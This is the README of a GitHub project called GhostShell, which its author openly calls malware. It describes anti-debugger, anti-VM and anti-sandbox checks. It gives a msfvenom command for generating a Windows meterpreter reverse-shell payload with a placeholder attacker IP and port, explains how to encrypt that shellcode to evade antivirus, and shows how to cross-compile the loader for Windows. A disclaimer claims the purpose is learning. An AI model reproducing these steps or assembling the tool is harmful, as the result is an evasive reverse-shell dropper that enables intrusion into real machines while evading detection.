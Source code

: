 <div align="center">
  <h1 align="center"> GhostShell </h1>
  <p align="center"> In this malware, are used some techniques to try bypass the AVs, VMs, and Sandboxes, with only porpuse to learning more. I'm not responsible for your actions. </p>


  <p align="center"> 
    <img alt="license" src="https://img.shields.io/github/license/ReddyyZ/GhostShell"/>
    <img alt="last-commit" src="https://img.shields.io/github/last-commit/ReddyyZ/GhostShell"/>
    <img alt="made-by" src="https://img.shields.io/badge/made%20by-ReddyyZ-red"/>
    <img alt="size" src="https://img.shields.io/github/repo-size/ReddyyZ/GhostShell"/>
    <img alt="binary-size" src="https://img.shields.io/badge/binary%20size-46%2C8%20KB-blue"/>
  </p>
  <p align="center">
    <a href="https://github.com/ReddyyZ"> <img alt="followers" src="https://img.shields.io/github/followers/ReddyyZ?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/stargazers"><img alt="stars" src="https://img.shields.io/github/stars/ReddyyZ/GhostShell?style=social"/></a>
    <a href="https://github.com/ReddyyZ/GhostShell/network/members"><img alt="forks" src="https://img.shields.io/github/forks/ReddyyZ/GhostShell?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/watchers"><img alt="watchers" src="https://img.shields.io/github/watchers/ReddyyZ/GhostShell?style=social"/> </a>
  </p>
  
</div>

<p align="center">
  <a href="#bomb-bypass-techniques"> Bypass Techniques </a> |
  <a href="#radioactive-generating-the-shellcode"> Generating the Shellcode </a> |
  <a href="#computer-how-to-compile-for-windows-on-linux"> How to compile for Windows on Linux </a>
  <a href="#book-credits"> Credits </a>
  <a href="#memo-license"> License </a>
</p>


- ## :bomb: Bypass Techniques

### **Anti-Debugger**

To try bypass the Debuggers, I'm using the "IsDebuggerPresent()" of "Windows.h" librarie to checks if a debugger is running.

### **Anti-VM / Anti-Sandbox**

- **Enumerate Process Function**

  Enumerates all process running on the system, and compares to the process in the black-list, if found a process and this is equal to any process in the black-list returns -1 (identified).

- **Sleep Acceleration Check Function**

  First, gets the current time, and sleeps 2 minutes, then, gets the time again, and compare, if the difference is less than 2, returns -1 (identified).

- **Mac Address Check Function**

  Gets the system mac address and compare to the macs, in the black-list, if the system mac address is equal to any mac in the black-list returns -1 (identified).


- ## :radioactive: Generating the Shellcode
![Generating](/assets/generating%20shellcode.gif)

To generate the shellcode type in the terminal: ``` msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c ```, copy the shellcode generated and encrypt it.                                                                                                 

To encrypt shellcode use the encrypt_shellcode script.                                                                                   
On linux type: ``` ./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```                                      
On windows type: ``` encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```



- ## :computer: How to compile for Windows on Linux

To compile for Windows on Linux, first, install mingw-w64: ``` sudo apt-get install mingw-w64 ```, then, to compile for 32 bits: ``` i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static ```, and to 64 bits: ``` x86_64-w64-mingw32 -o main.exe main.c -l psapi -static ```

-  ## :book: Credits

Credits for https://github.com/rastating, the encrypt_shellcode is based on a post of your github.io: https://rastating.github.io/creating-a-shellcode-crypter/



- ## :memo: License

This project is under MIT license. See at here [LICENSE](/LICENSE.md) for more informations.
